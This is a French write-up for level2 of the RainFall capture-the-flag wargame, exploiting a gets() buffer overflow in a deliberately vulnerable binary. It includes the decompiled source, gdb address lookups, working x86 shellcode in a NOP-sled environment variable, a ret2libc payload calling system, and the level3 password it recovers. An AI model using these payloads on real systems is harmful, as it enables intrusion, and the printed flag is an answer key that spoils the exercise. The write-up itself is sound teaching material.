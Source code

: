 Read also: [./Resources/README.md](./Resources/README.md)

# Source

```c
void p(void)
{
  uint unaff_retaddr;
  char local_50 [76];
 
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

int main(void) {
    p();
    return 0;
}
```

# Explication

Il s'agit d'un buffer overflow. On va donc récupérer les valeurs nécessaire à son exploit EIP,
adresse vers le shellcode ou chaine de caractère /bin/sh

**EIP:**

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:    push   %ebp
   0x08048540 <+1>:    mov  %esp,%ebp
   0x08048542 <+3>:    and  $0xfffffff0,%esp
   0x08048545 <+6>:    call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret 
```

Donc 0x0804854b => \x4b\x85\x04\x08

**Adresse de la variable d'environnement :**

Pour obtenir l'adresse d'une variable d'environnement : gdb exploit_me > b main > run > x/10s *((char **)environ).

```
(gdb) b main
(gdb) run

(gdb) x/80s *((char **)environ)
0xbffffbd9:     "ICE=
```

On récupére l'adresse du milieu du padding (de 1000) donc +500.

Donc 0xbffffbd9 + 500 = bf ff fd cd ⇒ \xcd\xfd\xff\xbf

## Méthode avec shellcode :

On utilise le shellcode suivant: https://www.exploit-db.com/exploits/13357

Et on ajoute un padding (\x90) de 1000 pour être tranquille. (On peut faire sans mais ça ajoute une marge de sécurité si l'agencement change).

```sh
export ICE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
```

Maintenant on peut lancer l'exploit avec un argument de 80 caractères (76 + 4) pour overflow le buffer.

Exploit :

```
level2@RainFall:~$ (python -c "print('a' * 80 + '\x4b\x85\x04\x08' + '\xcd\xfb\xff\xbf')"; cat) | ./level2
[…]
$ whoami
level3
```
## Méthode sans shellcode :

Adresse de la fonction system :
```
(gdb) run
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Donc 0xb7e6b060 => \x60\xb0\xe6\xb7

Technique sans schellcode :

```
level2@RainFall:~$ export ICE=$(python -c "print ' ' * 1000 + '/bin/sh'")
level2@RainFall:~$ (python -c "print('a' * 80 + '\x4b\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '0000' + '\xcd\xfb\xff\xbf')"; cat) | ./level2
[…]
cat /home/user/level3/.pass      
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
